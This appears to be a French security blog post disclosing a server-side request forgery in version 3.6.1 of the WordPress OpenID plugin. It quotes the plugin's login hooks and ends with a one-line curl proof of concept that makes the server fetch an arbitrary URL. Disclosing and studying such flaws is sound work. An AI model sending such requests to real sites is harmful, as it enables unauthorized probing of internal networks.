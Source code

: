 ```yaml
---
title: "SSRF dans le plugin Wordpress OpenID"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [OpenID](https://wordpress.org/plugins/openid/) se présente de cette façon :

> OpenID is an open standard that allows users to authenticate to websites without having to create a new password. This plugin allows users to login to their local WordPress account using an OpenID, as well as enabling commenters to leave authenticated comments with OpenID. The plugin also includes an OpenID provider, enabling users to login to OpenID-enabled sites using their own personal WordPress account. XRDS-Simple is required for the OpenID Provider and some features of the OpenID Consumer.
>
> Developer documentation, which includes all of the public methods and hooks for integrating with and extending the plugin, can be found here.

La version testée est la 3.6.1 et date d'il y a 1 an au moment de ces lignes.

## La vulnérabilité

Le script `login.php` hooke différentes fonctions du Wordpress dont celle affichant la page de login (sur `/wp-admin`) :

```php
add_action( 'login_form', 'openid_wp_login_form' );
```

L'objectif est d'ajouter un champ nommé `openid_identifier` :

```php
/**                                                                                                                    
 * Add OpenID input field to wp-login.php                                                                              
 *                                                                                                                     
 * @action: login_form                                                                                                 
 **/                                                                                                                   
function openid_wp_login_form() {                                                                                      
    echo '<hr id="openid_split" style="clear: both; margin-bottom: 1.0em; border: 0; border-top: 1px solid #999; height: 1px;" />';
                                                                                                                       
    echo '                                                                                                             
    <p style="margin-bottom: 8px;">                                                                                    
        <label style="display: block; margin-bottom: 5px;">' . __( 'Or login using an OpenID', 'openid' ) . '<br />    
        <input type="text" name="openid_identifier" id="openid_identifier" class="input openid_identifier" value="" size="20" tabindex="25" /></label>
    </p>                                                                                                               
                                                                                                                       
    <p style="font-size: 0.9em; margin: 8px 0 24px 0;" id="what_is_openid">                                            
        <a href="http://openid.net/what/" target="_blank">' . __( 'Learn about OpenID', 'openid' ) . '</a>             
    </p>';                                                                                                             
}
```

Ce champ est récupéré par un autre hook que voici :

```php
/**                                                                                                                    
 * Authenticate user to WordPress using OpenID.                                                                        
 *                                                                                                                     
 * @param mixed $user authenticated user object, or WP_Error or null                                                   
 */                                                                                                                    
function openid_authenticate( $user ) {                                                                                
    if ( array_key_exists( 'openid_identifier', $_POST ) && $_POST['openid_identifier'] ) {                            
                                                                                                                       
        $redirect_to = array_key_exists( 'redirect_to', $_REQUEST ) ? $_REQUEST['redirect_to'] : null;                 
        openid_start_login( $_POST['openid_identifier'], 'login', $redirect_to );                                      
                                                                                                                       
        // if we got this far, something is wrong                                                                      
        global $error;                                                                                                 
        $error = openid_message();                                                                                     
        $user  = new WP_Error( 'openid_login_error', $error );                                                         
                                                                                                                       
    } elseif ( array_key_exists( 'finish_openid', $_REQUEST ) ) {                                                      
                                                                                                                       
        $identity_url = $_REQUEST['identity_url'];                                                                     
                                                                                                                       
        if ( ! wp_verify_nonce( $_REQUEST['_wpnonce'], 'openid_login_' . md5( $identity_url ) ) ) {                    
            $user = new WP_Error( 'openid_login_error', __( 'Error during OpenID authentication.  Please try again. (invalid nonce)', 'openid' ) );
            return $user;                                                                                              
        }                                                                                                              
                                                                                                                       
        if ( $identity_url ) {                                                                                         
            $user_id = get_user_by_openid( $identity_url );                                                            
            if ( $user_id ) {                                                                                          
                $user = new WP_User( $user_id );                                                                       
            } else {                                                                                                   
                $user = new WP_Error( 'openid_registration_closed', __( 'Your have entered a valid OpenID, but this site is not currently accepting new accounts.', 'openid' ) );
            }                                                                                                          
        } elseif ( array_key_exists( 'openid_error', $_REQUEST ) ) {                                                   
            $user = new WP_Error( 'openid_login_error', htmlentities2( $_REQUEST['openid_error'] ) );                  
        }                                                                                                              
    }                                                                                                                  
                                                                                                                       
    return $user;                                                                                                      
}                                                                                                                      
add_action( 'authenticate', 'openid_authenticate' )
```

La fonction `openid_authenticate` récupère donc le champ `openid_identifier` et la passe à `openid_start_login`.

C'est cette fonction qui va, par l'intermédiaire d'une classe spécifique à OpenID (dans le dossier `lib/Auth/OpenID` du plugin), déclencher une requête HTTP à l'adresse indiquée par `$_POST['openid_identifier']`.

Voici un exemple de requête générée si la valeur passée est `http://perdu.com` :

```http
GET / HTTP/1.1
Host: perdu.com
User-Agent: php-openid/3.0.3 (php/8.0.30) curl/7.74.0
Accept: application/xrds+xml, text/html; q=0.3, application/xhtml+xml; q=0.5
```

PoC qui va demander `http://perdu.com/yolo` via le Wordpress :

```bash
curl "http://localhost:8000/wp-login.php" -d "log=toto&pwd=yolo&openid_identifier=http%3A%2F%2Fperdu.com%2Fyolo&wp-submit=Log%20In"
```

L'exploitation peut aussi bien se faire en remplissant les champs sur la page de login.
